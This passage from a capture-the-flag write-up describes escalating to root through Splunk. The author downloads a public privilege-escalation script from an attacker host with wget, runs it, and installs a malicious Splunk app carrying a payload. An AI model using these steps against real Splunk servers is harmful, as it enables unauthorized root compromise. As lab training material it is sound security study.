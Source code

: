 
# Root

Now that we have a username and a password we can try them against the Splunk
service. And they are working!

We transfer the [script mentioned above](https://github.com/tevora-threat/splunk_local_privesc)
to the box using `python -m http.server` on our kali box.

    :::text
    shaun@doctor:/tmp$ wget 10.10.14.121:8000/spelunker.sh
    wget 10.10.14.121:8000/spelunker.sh
    --2020-09-29 11:22:03--  http://10.10.14.121:8000/spelunker.sh
    Connecting to 10.10.14.121:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2503 (2,4K) [text/x-sh]
    Saving to: ‘spelunker.sh.1’

    spelunker.sh.1      100%[===================>]   2,44K  --.-KB/s    in 0s

    2020-09-29 11:22:03 (254 MB/s) - ‘spelunker.sh.1’ saved [2503/2503]

Then, we give the execution permission to the script and run it.

    :::text
    shaun@doctor:/tmp$ chmod +x spelunker.sh.1
    chmod +x spelunker.sh.1
    shaun@doctor:/tmp$ ./spelunker.sh.1
    ./spelunker.sh.1

    [!] SPLUNK LOCAL PRIVESC [!]
    [!] This tool assumes the creds are admin:changeme
    [!] and the port is 8089

    [*] Creating a tmp workspace and moving there...

    [*] Creating the splunk app...

    [*] Creating the payload...

    Tarballing the App and removing temp files...
    ./APPY/
    ./APPY/bin/
    ./APPY/bin/pay.sh
    ./APPY/local/
    ./APPY/local/inputs.conf
    [*] App should be created...


    [*] Installing the malicious splunk app....
    HTTP/1.1 201 Created
    Date: Tue, 29 Sep 2020 09:22:31 GMT
    Expires: Thu, 26 Oct 1978 00:00:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, max-age=0
    Content-Type: text/xml; charset=UTF-8
    X-Content-Type-Options: nosniff
    Content-Length: 4342
    Vary: Cookie, Authorization
    Connection: Close
    X-Frame-Options: SAMEORIGIN
    Server: Splunkd
